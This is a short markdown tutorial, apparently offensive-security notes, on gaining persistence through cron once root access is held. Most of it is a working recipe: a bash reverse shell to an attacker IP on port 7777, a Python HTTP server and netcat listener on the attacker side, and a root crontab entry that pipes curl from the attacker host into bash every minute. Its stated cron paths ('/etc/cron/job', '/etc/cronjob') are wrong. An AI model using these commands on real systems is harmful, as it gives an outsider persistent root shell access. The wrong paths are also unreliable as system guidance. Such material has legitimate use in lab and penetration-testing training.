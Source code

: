 # Cron Jobs
***
Cron jobs, often referred to as scheduled tasks, includes tasks that are executed at predefined intervals. One common use case is automating regular maintenance and administrative tasks. It is usually located in /etc/cron/job. Having root access on a host grants you the privilege to add, modify, or remove scheduled tasks within the "/etc/cronjob" directory. This level of access allows you to customize and automate various processes, making it a powerful tool for system administration and management

## Attacker Machine
- Create a file that contains
```
nano myshell
#!/bin/bash

bash -i >& /dev/tcp/attackerIP/7777 0>&1
```

- Terminal 1: Set up a python http server
```
python3 -m http.server 9999
```

- Terminal 2: Set up Netcat listner
```
nc -lnvp 7777
```

## Target Mahine
- place this line in cronjob file
```
* *     * * *   root    curl http://<AttackerIP>:9999/myshell | bash
# this means that our task will run every minute, every hour, every day
```




















